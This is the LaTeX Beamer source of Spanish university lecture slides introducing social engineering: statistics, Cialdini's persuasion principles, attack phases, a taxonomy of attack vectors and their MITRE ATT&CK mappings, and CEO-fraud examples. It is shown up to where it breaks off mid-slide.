\documentclass[aspectratio=169,11pt]{beamer}
\usepackage{beamertemplate}
\usepackage[T2A,T1]{fontenc}
% Caracteres cirílicos sueltos (ejemplos de homógrafos/punycode)
\newcommand{\cyr}[1]{{\fontencoding{T2A}\fontfamily{cmss}\selectfont #1}}
% Comandos, rutas y literales: monoespaciado en color de la plantilla
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
% Término técnico en inglés (anglicismo). Centraliza el estilo: si algún día
% se prefiere otra convención, basta con cambiar esta línea.
\newcommand{\term}[1]{\emph{#1}}
% Encabezado de apartado dentro de una transparencia
\newcommand{\lead}[1]{{\color{uznavy}\bfseries #1}\par\smallskip}
% Nota de fuente o referencia al pie de una transparencia
\newcommand{\fuente}[1]{\par\vspace{0.25em}{\scriptsize\color{uzsteel}\raggedright #1\par}}
% Separador para las listas de fuentes del pie
\newcommand{\sep}{\textbar{}}
% Bloque destacado para líneas de comando completas
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\usepackage{graphicx}
\usepackage{url}
\usepackage{textcomp}
\usepackage{eurosym}
\usepackage[normalem]{ulem}
\usepackage{ragged2e}
\usepackage{booktabs}
\usepackage{array}
\usepackage{etoolbox}
\apptocmd{\itemize}{\justifying}{}{}
\AtBeginEnvironment{frame}{\justifying}
% Margen de elasticidad para que las URL largas no se salgan del cuadro de texto
\setlength{\emergencystretch}{3em}

% Repite el índice al empezar cada sección, resaltando la que comienza
\setbeamertemplate{section in toc shaded}[default][30]
\AtBeginSection[]{%
  \begin{frame}{Índice}
  \footnotesize
  \tableofcontents[currentsection]
  \end{frame}
}

\title[SSI -- Tema 3.2]{Ingeniería Social}
\subtitle{Seguridad en Sistemas Informáticos --- Tema 3.2}
\author{José Luis Martínez}
\institute{Universidad de Castilla-La Mancha}
\date{Curso 2026/27}

% --- build reproducible / metadatos limpios ---
\pdfinfoomitdate=1
\pdftrailerid{}
\pdfsuppressptexinfo=-1

\begin{document}

\begin{frame}[plain]\titlepage\end{frame}

\section{Introducción}

\begin{frame}{Introducción}
\begin{center}
\includegraphics[width=0.849\textwidth,height=0.841\textheight,keepaspectratio]{img/taxonomia-ataque.pdf}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Introducción}
\footnotesize
\lead{Motivación:}
  \begin{itemize}
  \item El 98\% de los ciberataques que se producen en el mundo contiene algún componente de ingeniería social.
  \item Se estima que entre el 70\% y el 90\% de los incidentes de seguridad producidos por algún tipo de malware involucran ingeniería social en algún punto del ataque.
  \item Alrededor del 84\% de las organizaciones de EE.\,UU. fueron víctimas de algún ataque de phishing.
  \item Se estima que los ataques de ingeniería social cuestan a las empresas alrededor de 130.000~\$ por incidente.
  \end{itemize}
\fuente{Fuentes: \href{https://firewalltimes.com/social-engineering-statistics/}{Firewall Times};
        \href{https://www.verizon.com/business/resources/reports/dbir/}{Verizon DBIR};
        \href{https://apwg.org/trendsreports/}{APWG Phishing Activity Trends Report}.}
\begin{center}
\includegraphics[width=\textwidth,height=0.85\textheight,keepaspectratio]{img/sl005_1.png}
\end{center}
\end{frame}

\begin{frame}{Introducción}
\small
\begin{columns}[c]
\begin{column}{0.52\textwidth}
\lead{Definiciones:}
  \begin{itemize}
  \item La ingeniería social es la práctica de obtener información confidencial a través de la manipulación de usuarios legítimos.
  \item La idea reside en manipular PERSONAS para que VOLUNTARIAMENTE realicen las acciones que tú deseas.
  \end{itemize}
\end{column}
\begin{column}{0.46\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl006_1.jpg}
\end{center}
\end{column}
\end{columns}
\end{frame}

\begin{frame}{Introducción}
\large
\vfill
\lead{Aclaraciones:}
  \begin{itemize}\setlength{\itemsep}{1.1em}
  \item OSINT no es ingeniería social.
  \item No tiene que haber fuerza física.
  \item No tiene que haber coacción física.
  \item El interlocutor ha de realizar las acciones que el ingeniero social pretende de manera voluntaria.
  \item El ingeniero social emplea la manipulación psicológica para lograr sus fines.
  \end{itemize}
\vfill
\end{frame}

\begin{frame}{Introducción}
\small
\lead{Los 6 principios de la ingeniería social:}
  \begin{itemize}
  \item Reciprocidad
    \begin{itemize}
    \item Los seres humanos tenemos la necesidad de devolver los favores para sentirnos en paz con nosotros mismos.
    \item Ejemplos: muestras gratuitas, tarjetas de navidad, ofertas y promociones.
    \end{itemize}
  \item Compromiso y consistencia
    \begin{itemize}
    \item Los humanos tenemos la necesidad de ser consistentes con nuestro comportamiento respecto a nuestras creencias y compromisos adquiridos.
    \item Ejemplo: pedir que se comprometan a una acción si un determinado evento ocurre. Si dicho evento ocurre, recuérdaselo a aquellas personas que adquirieron el compromiso.
    \end{itemize}
  \end{itemize}
\fuente{Los seis principios de persuasión proceden de R.~B.~Cialdini, \emph{Influence: The Psychology of Persuasion} ---
        \href{https://www.influenceatwork.com/principles-of-persuasion/}{influenceatwork.com}.}
\end{frame}

\begin{frame}{Introducción}
\small
  \begin{itemize}
  \item Aprobación social
    \begin{itemize}
    \item La influencia de lo que hacen quienes nos rodean es muy poderosa. Lo que hace la mayoría parece que es lo correcto. La influencia es mayor cuanta más afinidad hay con el grupo y cuanto más relevante es el grupo de personas que conforma esa mayoría.
    \item Ejemplo: fila falsa de compradores.
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=0.91\textwidth,height=0.85\textheight,keepaspectratio]{img/sl008_1.jpg}
\end{center}
\end{frame}

\begin{frame}{Introducción}
\small
  \begin{itemize}
  \item Principio de autoridad
    \begin{itemize}
    \item Los seres humanos tendemos a obedecer a aquellas personas que consideramos figuras de autoridad.
    \item Ejemplo: anuncios de televisión en los que sale gente con bata blanca recomendando un producto, induciendo a la idea de ser médicos o científicos, o poniendo un número de colegiado. El
          \href{https://www.simplypsychology.org/milgram.html}{experimento de Milgram}.
    \end{itemize}
  \item Empatía
    \begin{itemize}
    \item A los seres humanos nos gustan las personas a las que conocemos, que nos resultan agradables y en las que confiamos.
    \item Ejemplos: reuniones tipo Tupperware, vendedores a domicilio.
    \end{itemize}
  \end{itemize}
\end{frame}

\section{Vectores de ataque}

\begin{frame}{Vectores de ataque}
\lead{Fases de un ataque de ingeniería social:}
\begin{center}
\includegraphics[width=\textwidth,height=0.76\textheight,keepaspectratio]{img/sl011_1.png}
\end{center}
\end{frame}

\begin{frame}{Vectores de ataque}
\small
\lead{OSINT o Inteligencia de Fuentes Abiertas}
  \begin{itemize}
  \item OSINT, o Inteligencia de Fuentes Abiertas, es una disciplina que implica la recopilación y el análisis de información de fuentes públicas y accesibles para obtener conocimiento valioso.
  \item Información pública son todos los datos que están disponibles en Internet para todo el mundo.
  \item Numerosas fuentes de información: redes sociales, foros, bases de datos públicas, documentos, etc.
  \item Es una disciplina íntimamente ligada a los ataques de ingeniería social, pero que también se utiliza en otras disciplinas de la seguridad informática (p.\,ej., pentesting).
  \item En \href{https://attack.mitre.org/techniques/T1598/}{MITRE ATT\&CK} se recoge como \emph{Phishing for Information} (T1598): la fase de recolección previa al ataque.
  \end{itemize}
\end{frame}

\begin{frame}{Vectores de ataque}
\small
\lead{Pretexto}
  \begin{itemize}
  \item Basándose en toda la información encontrada en la fase de OSINT, esta fase se encarga de desarrollar una historia para persuadir a la víctima.
  \item Implica el uso de ingenio y persuasión para engañar a la víctima, pretendiendo así ganar su confianza.
  \item Tener un pretexto no significa que se esté listo para lanzar el ataque.
  \item Es necesario seguir un plan de acciones para lograr los objetivos:
    \begin{itemize}
    \item ¿Cuál es el mejor momento para realizar el ataque?
    \item ¿Qué es lo que se quiere conseguir?
    \item ¿Qué se hace si el interlocutor sospecha? (plan de salida)
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Vectores de ataque}
\small
\lead{Lanzar el ataque}
  \begin{itemize}
  \item Estar preparado para cualquier situación que pueda surgir durante el ataque.
  \item Es importante tener un esquema de los pasos o acciones a realizar, pero no demasiado ``guionizado'', para permitir que haya dinamismo y aportar credibilidad.
  \item Cuando se sigue un guion cerrado y aparece algo inesperado, es fácil ponerse nervioso y que el ataque fracase.
  \end{itemize}
\end{frame}

\begin{frame}{Vectores de ataque}
\begin{center}
\includegraphics[width=0.959\textwidth,height=0.841\textheight,keepaspectratio]{img/sl012_1.png}
\end{center}
\end{frame}

\begin{frame}{Vectores de ataque}
\footnotesize
\lead{\small Tipos de ataques de ingeniería social:}
\vfill
\begin{columns}[t]
\begin{column}{0.31\textwidth}
\lead{\footnotesize Basados en humanos}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item \term{Impersonation} --- suplantación
  \item Fraude del CEO / BEC
  \item \term{SIM swapping}
  \item Ingeniería social inversa
  \item \term{Tailgating} / \term{Piggybacking}
  \item \term{Vishing} --- por teléfono
  \item \term{Dumpster Diving} --- la basura
  \item \term{Eavesdropping} --- escucha
  \item \term{Shoulder Surfing} --- mirar
  \end{itemize}
\end{column}
\begin{column}{0.31\textwidth}
\lead{\footnotesize Basados en computadores}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item \term{Phishing} / \term{Spear phishing}
  \item \term{Whaling} --- altos cargos
  \item \term{SMiShing} (SMS) / \term{Quishing} (QR)
  \item \term{Watering Hole} --- abrevadero
  \item \term{Baiting} --- el cebo, USB
  \item Apps maliciosas y troyanizadas
  \item \term{Pop-up} / \term{Spam} / \term{hoax}
  \item \term{Pharming} --- DNS
  \end{itemize}
\end{column}
\begin{column}{0.31\textwidth}
\lead{\footnotesize Phishing avanzado}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item AiTM (Evilginx, EvilnoVNC)
  \item \term{Device Code Phishing}
  \item \term{Browser-in-Browser}
  \item \term{MFA fatigue}
  \item \term{Callback phishing} (TOAD)
  \item ClickFix
  \item \term{Deepfakes} de voz y vídeo
  \end{itemize}
\end{column}
\end{columns}
\vfill
\fuente{La frontera entre columnas es porosa: casi todas las campañas reales encadenan
        varios vectores (p.\,ej. \term{smishing} $\rightarrow$ \term{callback phishing} $\rightarrow$ suplantación telefónica).}
\end{frame}

\begin{frame}{Vectores de ataque}
\footnotesize
\lead{La ingeniería social en MITRE ATT\&CK}
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item \href{https://attack.mitre.org/techniques/T1566/}{T1566 --- Phishing}: acceso inicial. Subtécnicas:
    \begin{itemize}
    \item \href{https://attack.mitre.org/techniques/T1566/001/}{T1566.001} \emph{Spearphishing Attachment} --- adjunto malicioso (nuestros ejemplos 1 y 2).
    \item \href{https://attack.mitre.org/techniques/T1566/002/}{T1566.002} \emph{Spearphishing Link} --- enlace a página clonada (ejemplos 3 y 4).
    \item \href{https://attack.mitre.org/techniques/T1566/003/}{T1566.003} \emph{Spearphishing via Service} --- redes sociales, Teams, Slack, LinkedIn.
    \item \href{https://attack.mitre.org/techniques/T1566/004/}{T1566.004} \emph{Spearphishing Voice} --- vishing y callback phishing.
    \end{itemize}
  \item \href{https://attack.mitre.org/techniques/T1598/}{T1598 --- Phishing for Information}: la fase OSINT/recolección previa.
  \item \href{https://attack.mitre.org/techniques/T1204/}{T1204 --- User Execution}: la víctima ejecuta el fichero o el comando (ClickFix, macros).
  \item \href{https://attack.mitre.org/techniques/T1656/}{T1656 --- Impersonation}: suplantación de una persona u organización de confianza.
  \item \href{https://attack.mitre.org/techniques/T1621/}{T1621 --- MFA Request Generation}: \emph{MFA fatigue} o \emph{push bombing}.
  \item \href{https://attack.mitre.org/techniques/T1534/}{T1534 --- Internal Spearphishing}: phishing desde una cuenta interna ya comprometida.
  \end{itemize}
\fuente{Mapear cada técnica a ATT\&CK permite al Blue Team asociar detecciones y mitigaciones concretas a cada vector.}
\end{frame}

\section{Basados en humanos}

\begin{frame}{Basados en humanos}
\scriptsize
\setbeamerfont{itemize/enumerate subbody}{size=\scriptsize}
\begin{columns}[c]
\begin{column}{0.66\textwidth}
\lead{\term{Impersonation} (suplantación de identidad):}
  \begin{itemize}\setlength{\itemsep}{0.4em}
  \item El atacante se hace pasar por alguien que no es con el fin de conseguir algún tipo de información sensible.
  \item Se puede realizar por teléfono, correo electrónico o presencialmente.
  \item Ataques comunes de suplantación:
    \begin{itemize}\setlength{\itemsep}{0.3em}
    \item El timo del CEO: el estafador se hace pasar por un alto ejecutivo de una empresa para presionar a un empleado y exigirle transferencias urgentes de dinero. \href{https://www.youtube.com/watch?v=pfhGu0pr2W8}{Vídeo}.
    \item Clonación de voz con IA: los delincuentes usan fragmentos de audio para clonar la voz de un familiar y simular una situación de emergencia telefónica.
    \item Dominios parecidos: correos electrónicos enviados desde direcciones falsas que imitan visualmente a las de una marca o proveedor de confianza.
    \end{itemize}
  \end{itemize}
\end{column}
\begin{column}{0.32\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl017_1.jpg}
\end{center}
\end{column}
\end{columns}
\end{frame}

\begin{frame}{Basados en humanos}
\small
Correo fraudulento que suplanta a la Policía Nacional: sello oficial, lenguaje
administrativo y un adjunto que la víctima ``debe'' abrir para responder a una supuesta denuncia.
\begin{center}
\includegraphics[width=\textwidth,height=0.65\textheight,keepaspectratio]{img/sl017_2.png}
\end{center}
\fuente{Combina el \term{principio de autoridad} con la urgencia: dos de los seis resortes de Cialdini.}
\end{frame}

\begin{frame}{Basados en humanos}
\small
El fraude del CEO no es un riesgo teórico: en el caso de la EMT de Valencia se transfirieron
cerca de 4~millones de euros, y el debate posterior llegó hasta quién asume la responsabilidad.
